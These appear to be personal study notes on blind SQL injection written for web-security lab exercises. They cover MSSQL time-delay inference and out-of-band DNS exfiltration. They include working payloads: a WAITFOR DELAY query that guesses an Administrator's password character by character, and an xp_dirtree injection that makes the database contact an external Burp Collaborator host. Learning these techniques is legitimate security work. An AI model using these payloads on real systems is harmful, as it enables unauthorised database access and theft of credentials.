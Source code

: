     add solution from kali's vs-code notes.
    

---

**Exploiting blind SQL injection by triggering time delays**

suppose that the application now catches database errors and handles them gracefully or not change in site with right or wrong query. so our upper both methods will fail.

"Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response." so we can notice delay to know about vulnerability. 

but depends on type of database being used.

for MSSQL DB,

`SELECT tracking-id FROM track-table where TrackingId='xyz'; IF (1=2) WAITFOR DELAY '0:0:10'--`

`SELECT tracking-id FROM track-table where TrackingId='xyz'; IF (1=1) WAITFOR DELAY '0:0:10'--`

if condition will be TRUE then & only then Delay will occur. we can use this technique to retrieve data as shown below :

`SELECT tracking-id FROM track-table where TrackingId='xyz'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

- LAB Solution 1 :
    
    
- LAB Solution 2 :
    
    

---

**Exploiting blind SQL injection using out-of-band (OAST) techniques**

Suppose, the application carries out the same SQL query, but does it asynchronously.

however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query, there may still SQLi vulnerability.

A variety of network protocols can be used for Out-of-Band-network purpose to exfiltrate directly within network interaction , but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

DNS Lookup for MSSQL :

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae84dfrgim9ay.burpcollaborator.net/a'--`

this will cause DB to perform lookup for ....

0efdymgw1o5w9inae84dfrgim9ay.burpcollaborator.net

- LAB Sloution :

After confirming a way to trigger Out-of-band interactions, use this channel to exfiltrate data.
